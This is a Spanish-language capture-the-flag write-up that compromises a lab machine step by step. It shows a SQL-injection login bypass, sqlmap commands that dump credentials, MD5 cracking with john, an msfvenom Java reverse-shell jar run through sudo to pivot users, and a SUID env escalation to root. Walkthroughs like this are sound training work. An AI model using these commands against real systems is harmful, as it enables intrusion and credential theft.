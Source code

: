 - Tags: #sqli #sqlmap #john #scp #java #env
____
para esta maquina aplicamos el típico escaner de nmap el cual nos revelo los siguientes puertos.
____
![](attachment/8995b46bc2e713d6652a2c73e2acb412.png)
___
podemos ver que tenemos servicios de samba, ssh y una web. 

echemos un vistazo a la web para ver que tal.
____
![](attachment/556a55ed4734c3f741a43508aed1be59.png)
____
al no tener credenciales probaríamos claves por defecto como admin:admin y demas.

pero una vez que las probamos todas vemos que no funciona. por lo que ahora aplicaremos una inyección sql para ver que tal se comporta la pagina.

si aplicamos la típica inyección:

```sql
' or 1=1; -- -
```

Desglose de la query:

1. **`'`**: Este símbolo cierra la cadena de texto anterior en la consulta original.
2. **`or 1=1`**: Esta condición siempre es verdadera. Al agregarla, se asegura que la consulta siempre devuelva resultados, sin importar la condición original.
3. **`;`**: Finaliza la instrucción SQL.
4. **`--`**: Indica que el resto de la línea es un comentario en SQL, por lo que cualquier cosa que siga es ignorada por el motor de la base de datos.

por lo que si es vulnerable a esta inyección podremos acceder sin proporcionar contraseña.

_____
![](attachment/3e8881c36872a002b93399de2ca0008b.png)
____
hemos accedido a una pagina que ya nos muestra lo viene siendo un usuario, dylan.

el siguiente paso sera aplicar un ataque de slqi y verificaremos si es vulnerable en otros aspectos.

nos ayudaremos de la herramienta sqlmap la cual automatiza el proceso.

primero debemos saber a las bases de datos para ello aplicaremos el siguiente comando.

```sql
sqlmap --url http://172.17.0.2 --dbs --batch --forms 
```

este comando nos permitirá saber las bases de datos, ademas de probar por los formularios aplicando todas las opciones por defecto.
_____
![](attachment/6df56a42f5f9e27b051e0e95ca490801.png)
____
podemos ver que tenemos 6 base de datos, ahora eligiremos una y comprobaremos sus tablas para posteriormente comprobar sus columnas.

vamos agregando parámetros al comando base, ya que tenemos la base de datos seleccionada le diremos que nos muestre las tablas de esa base de datos.

```sql
sqlmap --url http://172.17.0.2 -D user --tables --batch --forms
```

____
![](attachment/85319b992264f1a74a9fd08f01b204d2.png)
___
como vemos tenemos una sola tabla users, ahora debemos aplicar el parámetro para saber el numero de columnas de la tabla users.

```sql
sqlmap --url http://172.17.0.2 -D user -T users --columns --batch --forms 
```

____
![](attachment/d6264806221279c04387e06774196945.png)
____
ahora vamos a dumpear las columnas para obtener los datos.

```sql
sqlmap --url https://172.17.0.2 -D register -T users -C passwd,username --dump --batch --forms 
```

______
![](attachment/1f2b7138045f9342bddfe5ed76d1b43b.png)
____
ahora tenemos unas credenciales, si intentamos acceder con ssh a la maquina con estas credenciales, no vamos a poder.

aun nos queda pendiente el servicio de samba por lo que utilizando el smbclient podremos intentar acceder al mismo.

si aplicamos el siguiente comando se smbclient podemos probar si las credenciales son validas 

```shell
smbclient //172.17.0.2/shared -U <usuario>%<contraseña>
```
____
![](attachment/f9275e4fea96af0c9a29ae9f1a343cb7.png)
_____
entramos y tenemos un fichero .txt que nos descargaremos con el comando get.

si observamos el contenido del archivo nos damos cuenta que tiene un hash, si le aplicamos el comando hashid nos dirá que es MD5 por lo que debemos aplicar fuerza bruta con john para así trata de descifrarlo.

```shell
john --format=raw-md5 --wordlist=<diccionario> hash.txt
```

___
![](attachment/b6f6a669b12ebdc5c2f7029a3d07ff88.png)
______
ahora si podemos intentar acceder con ssh, pero no con el usuario dylan.

cuando accedimos al servicio de smb y descargamos el archivo ese archivo tenia un nombre (augustus) ese nombre lo usaremos como usuario para ingresar por ssh.

una vez dentro aplicaremos el comando sudo -l puesto que tenemos la contraseña.

____
![](attachment/66498982d17bbb560c06d3e2f83313c9.png)
_____
observamos que podemos ejecutar java como el usuario dylan, por lo esto nos sirve para pivotar de usuario.

encontramos una pagina que nos enseña como explotar esta vulnerabilidad.

no dice que debemos crear un archivo .jar con msfvenom el cual sera un tipo de reverse shell, por lo le configuraremos un puerto y nuestra IP. 

```shell
msfvenom -p java/shell_reverse_tcp LHOST=192.168.0.102 LPORT=443 -f jar -o shell.jar
```

posteriormente debemos subir ese archivo a la maquina victima, como estamos conectados por ssh podemos transferir el archivo con scp. 

```shell
scp <archivo> augustus@172.17.0.2:/tmp
```

ya tenemos el archivo en la maquina victima, el siguiente paso es ponernos a la escucha con netcat y después ejecutar el siguiente comando.

```shell
sudo -u dylan /usr/bin/java -jar /tmp/shell.jar
```

ganaremos acceso como dylan mediante la reverse shell que hemos subido, estamos a la escucha con netcat y obtenemos la conexion. 

haremos el tratamiento de la tty y aplicaremos el comando para buscar permisos SUID y ver que encontramos.

____
![](attachment/fdb684b06a159ba95f14cf1bdcd0e06a.png)
___
nos aprovecharemos del archivo env para realizar la escalada de privilegios. 

aplicando el comando.

```shell
./env /bin/sh -p
```

y de esa forma obtendremos root
